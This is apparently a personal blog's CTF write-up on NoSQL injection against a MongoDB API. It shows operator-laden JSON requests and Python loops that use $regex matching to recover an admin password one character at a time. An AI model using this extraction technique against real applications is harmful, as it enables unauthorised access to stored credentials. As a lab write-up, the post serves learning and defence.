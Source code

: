 ```yaml
---
title: Mongo DB Data Exfiltration via Search Conditions
date: 2023-11-07
programming/languages:
- Python
programming/topics:
- CTF
- Security
- Exfiltration
- MongoDB
series:
- 2023 CTF Hints
---
```

I recently participated in a security capture the flag (CTF) exercise through work. The goal was--in a wide variety of ways--to find a hidden string of the form `flag{...}` somewhere in the problem. Some required exploiting sample websites, some parsing various data formats or captures, some required reverse engineering code or binaries, and (new this year) some required messing with LLMs. 

As I tend to do for just about everything, I ended up writing up my own experiences. I won't share that, since it's fairly tuned to the specific problems and thus 1) not interesting and 2) probably not mine to share, but I did want want to share a few interesting techniques I found/used. If it helps anyone either defend against similar attacks in the real world or (more importantly :smile:) someone comes across this while trying to solve a CTF of their own, all the better. 

Okay, first technique: extracting data from a MongoDB database using search conditions.

<!--more-->

In this specific problem, we had a website backed by a MongoDB database. As one of the later steps of the attack, you find an API. For example, you can query `/api/review` with the given example `{"title": "Thornhedge"}`:

```http
POST /api/review HTTP/1.1
Content-Type: application/json
Authorization: Bearer your_access_token_here

{
    "title": "Thornhedge"
}
```

Which returns:

```json
[
    {
        "date": "2023-10-28",
        "title": "Thornhedge",
        "type": "Book",
        "series": "",
        "index": "",
        "author": "T. Kingfisher"
    }
]
```

A little more exploration finds something all sorts of interesting:

```http
POST /api/review HTTP/1.1
Content-Type: application/json
Authorization: Bearer your_access_token_here

{
    "name": "admin"
}
```

Returning:

```json
[
    {
        "name": "admin",
        "email": "admin@example.com",
        "password": "**REDACTED**"
    }
]
```

Ooh, getting an admin account is always handy. :smile: But the password is redacted. :sad:

This right here is why knowing that the DB is MongoDB is handy: [query selectors](https://www.mongodb.com/docs/manual/reference/operator/query/). Say what? A programming language with JSON as the syntax? Weird. Wonderful.

Specifically, you can write a query like this:

```http
POST /api/review HTTP/1.1
Content-Type: application/json
Authorization: Bearer your_access_token_here

{
  "$and": [
    { "name": "admin" },
    { "password": { "$gt": "m" } }
  ]
}
```

As expected, `$and` means you have to match both specifications. `{ "password": { "$gt": "m" } }` isn't asking for a weird password; it's saying that the password is `greater than` the character `m`.

Response:

```json
[]
```

So, not that. Change the `$gt` out for `$lt` and verify:

```json
[
    {
        "name": "admin",
        "email": "admin@example.com",
        "password": "**REDACTED**"
    }
]
```

Okay. That tells us something. The character is [[wiki:lexicographically]] before `m`. We could keep going like this with a binary search, but we have another tool at our disposal:

```python
import itertools
import requests

headers = {...}
domain = "..."

password_length = 0

for length in itertools.count(start=1):
    response = requests.post(
        f'https://{domain}/api/users',
        headers=headers,
        json={
            'name': 'admin',
            'password': {'$regex': '^.{%d}$' % length}
        }
    )

    if response.json()['users']:
        password_length = length
        print(f'Password length is {length}')
        break
```

`$regex` lets us write a [[wiki:regular expression]]() to query our data. So if we want to ask if the password has a length of (say) 5, we can write the query `^.{5}$` where `^` and `$` mark the beginning and end of the password (otherwise we'll get a minimum length; not an absolute one), `.` matches any character and `{5}` says match 5 of them. Loop until we get a hit. 

Okay, we know how long the password is. We can do the same thing to actually match each character in turn:

```python
password = []

while len(password) < password_length:
    for c in range(32, 128):
        current_password = ''.join(password + [chr(c)])

        response = requests.post(
            f'https://{domain}/api/users',
            headers=headers,
            json={
                'name': 'admin',
                'password': {'$regex': '^' + re.escape(current_password)}
            }
        )

        if response.json()['users']:
            password.append(chr(c))
            break

print(''.join(password))
```

This is much the same. As we're going, we're going to have a query that looks like `^f`, then `^fl` etc. as we get each character of the password. One big caveat is that we do need to use `re.escape` to handle characters that are both in the password and have meaning in regular expressions. Go through the [[wiki:printable ASCII characters]]() (32-128) and just keep hammering away until you've got it:

```text
$ python crack.py
...
Password length is 28

...
d
e
f
...
fk
fl
...
flag{this_was_not_the_flag!}
```

Pretty elegant! 

It wasn't the first step (that was getting the bearer token), but since the password looks like a flag, it was the last. Pretty neat one. Onward!
